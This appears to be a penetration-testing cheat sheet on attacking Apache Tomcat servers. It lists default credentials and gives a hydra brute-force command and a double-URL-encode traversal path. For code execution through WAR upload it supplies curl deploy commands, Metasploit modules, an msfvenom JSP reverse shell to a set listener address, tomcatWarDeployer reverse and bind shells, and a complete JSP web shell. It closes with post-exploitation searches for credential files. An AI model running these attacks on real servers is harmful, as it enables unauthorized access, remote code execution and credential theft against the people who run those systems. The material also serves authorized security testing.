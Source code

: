 # Tomcat

It usually runs on **port 8080**

## Avoid to run with root

In order to not run Tomcat with root a very common configuration is to set an Apache server in port 80/443 and, if the path requested matches a regexp, the request is send to the Tomcat running in other port.

## Username Enum

In some versions prior to Tomcat6 you could enumerate users:

```bash
msf> use auxiliary/scanner/http/tomcat_enum
```

## Default credentials

The most interesting path of Tomcat is _/manager/html_, inside that path you can upload and deploy war files \(execute code\). But this path is protected by basic TTP auth, the most common credentials are:

* admin:admin
* tomcat:tomcat
* admin:&lt;NOTHING&gt;
* admin:s3cr3t
* tomcat:s3cr3t
* admin:tomcat

You could test these and more using:

```bash
msf> use auxiliary/scanner/http/tomcat_mgr_login
```

### Bruteforce

This could be needed.

```bash
hydra -L users.txt -P /usr/share/seclists/Passwords/darkweb2017-top1000.txt -f 10.10.10.64 http-get /manager/html
```

## Vulns

### Double URL encode

A well-known vulnerability _to_ access the application manager \_\_ is mod\_jk in CVE-2007-1860, that allows **Double URL encode path traversal.**

In order to access to the management web of the Tomcat go to: _pathTomcat/%252E%252E/manager/html_

Take into account that to upload the webshell you could need to use the double urlencode trick and send also a cookie and/or a SSRF token.  
To access to backdoor you could also need to use the double urlencode trick.

### /examples

The following example scripts that come with Apache Tomcat v4.x - v7.x and can be used by attackers to gain information about the system. These scripts are also known to be vulnerable to cross site scripting \(XSS\) injection \(from [here](https://www.rapid7.com/db/vulnerabilities/apache-tomcat-example-leaks/)\).

* /examples/jsp/num/numguess.jsp
* /examples/jsp/dates/date.jsp
* /examples/jsp/snp/snoop.jsp
* /examples/jsp/error/error.html
* /examples/jsp/sessions/carts.html
* /examples/jsp/checkbox/check.html
* /examples/jsp/colors/colors.html
* /examples/jsp/cal/login.html
* /examples/jsp/include/include.jsp
* /examples/jsp/forward/forward.jsp
* /examples/jsp/plugin/plugin.jsp
* /examples/jsp/jsptoserv/jsptoservlet.jsp
* /examples/jsp/simpletag/foo.jsp
* /examples/jsp/mail/sendmail.jsp
* /examples/servlet/HelloWorldExample
* /examples/servlet/RequestInfoExample
* /examples/servlet/RequestHeaderExample
* /examples/servlet/RequestParamExample
* /examples/servlet/CookieExample
* /examples/servlet/JndiServlet
* /examples/servlet/SessionExample
* /tomcat-docs/appdev/sample/web/hello.jsp

## RCE

Finally, if you have access to the Tomcat Web Application Manager, you can **upload and deploy a .war file \(execute code\)**.

### Limitations

You will only be able to deploy a WAR if you have **enough privileges** \(roles: **admin**, **manager** and **manager-script**\). Those details can be find under _tomcat-users.xml_ usually defined in `/usr/share/tomcat9/etc/tomcat-users.xml` \(it vary between versions\) \(see [POST ](tomcat.md#post)section\).

```bash
# /!\ tomcat7 and above uses /manager/text/undeploy and /manager/text/deploy paths
# tomcat6-admin (debian) or tomcat6-admin-webapps (rhel) has to be installed

# deploy under "path" context path
curl --upload-file monshell.war "http://tomcat:Password@localhost:8080/manager/deploy?path=/monshell"

# undeploy
curl "http://tomcat:Password@localhost:8080/manager/undeploy?path=/monshell"
```

### Metasploit

```bash
use exploit/multi/http/tomcat_mgr_upload
msf exploit(multi/http/tomcat_mgr_upload) > set rhost <IP>
msf exploit(multi/http/tomcat_mgr_upload) > set rport <port>
msf exploit(multi/http/tomcat_mgr_upload) > set httpusername <username>
msf exploit(multi/http/tomcat_mgr_upload) > set httppassword <password>
msf exploit(multi/http/tomcat_mgr_upload) > exploit
```

### MSFVenom Reverse Shell

```bash
msfvenom -p java/jsp_shell_reverse_tcp LHOST=10.11.0.41 LPORT=80 -f war -o revshell.war
```

Then, upload the revshell.war file and access to it \(_/revshell/_\)

### Bind and reverse shell with [tomcatWarDeployer.py](https://github.com/mgeeky/tomcatWarDeployer)

In some scenarios this doesn't work \(for example old versions of sun\)

#### Download

```bash
git clone https://github.com/mgeeky/tomcatWarDeployer.git
```

#### Reverse shell

```bash
./tomcatWarDeployer.py -U <username> -P <password>-H <ATTACKER_IP> -p <ATTACKER_PORT> <VICTIM_IP>:<VICTIM_PORT>/manager/html/
```

#### Bind shell

```bash
./tomcatWarDeployer.py -U <username> -P <password> -p <bind_port> <victim_IP>:<victim_PORT>/manager/html/
```

### Using [Culsterd](https://github.com/hatRiot/clusterd)

```bash
clusterd.py -i 192.168.1.105 -a tomcat -v 5.5 --gen-payload 192.168.1.6:4444 --deploy shell.war --invoke --rand-payload -o windows
```

### Manual method - Web shell

Create **index.jsp** with this content:

```java
<FORM METHOD=GET ACTION='index.jsp'>
<INPUT name='cmd' type=text>
<INPUT type=submit value='Run'>
</FORM>
<%@ page import="java.io.*" %>
<%
   String cmd = request.getParameter("cmd");
   String output = "";
   if(cmd != null) {
      String s = null;
      try {
         Process p = Runtime.getRuntime().exec(cmd,null,null);
         BufferedReader sI = new BufferedReader(new
InputStreamReader(p.getInputStream()));
         while((s = sI.readLine()) != null) { output += s+"</br>"; }
      }  catch(IOException e) {   e.printStackTrace();   }
   }
%>
<pre><%=output %></pre>
```

```bash
$ mkdir webshell
$ cp index.jsp webshell
$ cd webshell
$ jar -cvf ../webshell.war *
webshell.war is created
```

You could also install this \(allows upload, download and command execution\): [http://vonloesch.de/filebrowser.html](http://vonloesch.de/filebrowser.html)

## POST

Name of tomcat credentials file is _tomcat-users.xml_

```bash
find / -name tomcat-users.xml 2>/dev/null
```

Other ways to gather tomcat credentials:

```bash
msf> use post/multi/gather/tomcat_gather
msf> use post/windows/gather/enum_tomcat
```

